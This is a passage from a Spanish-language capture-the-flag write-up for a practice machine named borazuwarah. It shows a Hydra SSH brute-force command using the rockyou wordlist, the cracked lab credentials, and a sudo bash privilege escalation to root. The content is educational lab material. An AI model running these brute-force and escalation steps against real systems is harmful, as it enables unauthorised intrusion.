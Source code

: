 `hydra -l borazuwarah -P /usr/share/wordlist/rockyou.txt ssh://172.17.0.2 -I -t64`

![9](/assets/img/writeups/borazuwarahCTF/9.png)

borazuwarah:123456

- Entramos por SSH y vemos que podemos ejecutar como cualquier usuario una bash.
Por lo que lo tenemos muy sencillo. Si ejecutamos una bash como privilegiado conseguiremos ser root.

`sudo -u root /bin/bash -p`

-p > Modo privilegiado.

![10](/assets/img/writeups/borazuwarahCTF/10.png)

- Y conseguimos ser root!!

---

## [BreakMySSH](#índice-de-máquinas-resueltas-)

![2](/assets/img/writeups/BreakMySSH/2.png)
